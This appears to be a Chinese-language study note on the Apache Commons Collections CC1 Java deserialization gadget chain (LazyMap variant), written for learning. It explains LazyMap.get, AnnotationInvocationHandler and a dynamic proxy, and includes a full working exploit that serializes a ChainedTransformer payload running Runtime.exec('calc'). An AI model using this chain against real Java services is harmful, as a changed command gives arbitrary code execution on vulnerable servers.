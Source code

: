[[java代码审计cc1链TransformedMap版本]]
参考文章
https://drun1baby.top/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/
前面依旧是通过调用InvokeTransform类的transform方法命令执行
```java

package org.example;  
  
import org.apache.commons.collections.functors.InvokerTransformer;  
  
import java.io.IOException;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1 {  
    public static void main(String[] args) throws IOException {  
        Runtime r = Runtime.getRuntime();  
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        invokerTransformer.transform(r);  
    }  
}
```
但通过查看transformer方法调用情况可以发现另一个调用链LazpMap
```java
public class LazyMap  
        extends AbstractMapDecorator  
        implements Map, Serializable {  
  
    /** Serialization version */  
    private static final long serialVersionUID = 7990956402564206740L;  
  
    /** The factory to use to construct elements */   
    /**  
     * Factory method to create a lazily instantiated map.     ** @param map  the map to decorate, must not be null  
     * @param factory  the factory to use, must not be null  
     * @throws IllegalArgumentException if map or factory is null  
     */   
      public static Map decorate(Map map, Transformer factory) {  
        return new LazyMap(map, factory);  
    }
protected LazyMap(Map map, Factory factory) {  
    super(map);  
    if (factory == null) {  
        throw new IllegalArgumentException("Factory must not be null");  
    }  
    this.factory = FactoryTransformer.getInstance(factory);  
}

public Object get(Object key) {  
    // create value for key if key is not currently in the map  
    if (map.containsKey(key) == false) {  
        Object value = factory.transform(key);  
        map.put(key, value);  
        return value;  
    }  
    return map.get(key);  
}
```
可以发现这个类的get方法调用了transform方法并且调用的变量factory也是transform类型
同样发现虽然构造方法不能直接调用，但是可以通过LazyMap类的decorate方法去间接实例化LazyMap对象
然后在反射调用其get方法
exp
```java
public static void main(String[] args) throws Exception {  
    Runtime r = Runtime.getRuntime();  
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
    Map<String, String> map = new HashMap();  
    Map expMap = LazyMap.decorate(map, invokerTransformer);  
    Class<LazyMap> lazyMapClass = LazyMap.class;  
    Method lazyMapGet = lazyMapClass.getDeclaredMethod("get", Object.class);  
    lazyMapGet.setAccessible(true);  
    lazyMapGet.invoke(expMap, r);  
}
```
![[Pasted image 20250601161059.png]]

这时就可以去查找get方法的调用处

发现在AnnotationInvocationHandler中
```java
public Object invoke(Object proxy, Method method, Object[] args) {  
    String member = method.getName();  
    Class<?>[] paramTypes = method.getParameterTypes();  
  
    // Handle Object and Annotation methods  
    if (member.equals("equals") && paramTypes.length == 1 &&  
        paramTypes[0] == Object.class)  
        return equalsImpl(args[0]);  
    if (paramTypes.length != 0)  
        throw new AssertionError("Too many parameters for an annotation method");  
  
    switch(member) {  
    case "toString":  
        return toStringImpl();  
    case "hashCode":  
        return hashCodeImpl();  
    case "annotationType":  
        return type;  
    }  
  
    // Handle annotation member accessors  
    Object result = memberValues.get(member);  
  
    if (result == null)  
        throw new IncompleteAnnotationException(type, member);  
  
    if (result instanceof ExceptionProxy)  
        throw ((ExceptionProxy) result).generateException();  
  
    if (result.getClass().isArray() && Array.getLength(result) != 0)  
        result = cloneArray(result);  
  
    return result;  
}
```
这里已经调用了get方法 Object result = memberValues.get(member); 而这里的参数member刚好是传入invoke的参数并且也是最终调用的transformer方法的参数，因此参数可控。
而现在的问题在于如何调用invoke方法。
这里引入动态代理的特性，当一个对象被动态代理后，想要通过动态代理调用这个对象的方法，就一定·会调用invoke方法
这里参考了这篇文章描述动态代理的知识
https://drun1baby.top/2022/06/01/Java反序列化基础篇-04-JDK动态代理/

而这里我们可以对readObject方法中的memberValues对象进行动态代理，因为这样可以通过动态代理调用其的entrySet()方法从而导致invoke方法被调用，形成闭环
exp
```java
public static void main(String[] args) throws Exception {  
    Transformer[] transformers = new Transformer[]{  
            new ConstantTransformer(Runtime.class),  
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
    };  
  
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
    Map<Object, Object> expMap = new HashMap<>();  
    Map lazyMap = LazyMap.decorate(expMap, chainedTransformer);  
  
  
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);  
    constructor.setAccessible(true);  
    InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class,  lazyMap);  
    Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);  
    invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);  
    serialize(invocationHandler);  
    unserialize();  
}  
public  static void serialize(Object obj) throws IOException {  
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
    oos.writeObject(obj);  
  
}  
public static Object unserialize() throws IOException, ClassNotFoundException {  
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));  
    Object obj = ois.readObject();  
    return obj;  
}
```
![[Pasted image 20250602230329.png]]

其实和TransformedMap版本的很多点相似，例如通过结合ContstantTransform和ChainedTransformer实现控制参数，但是这里巧妙之处更在于通过动态代理去间接调用invoke方法从而达到效果。
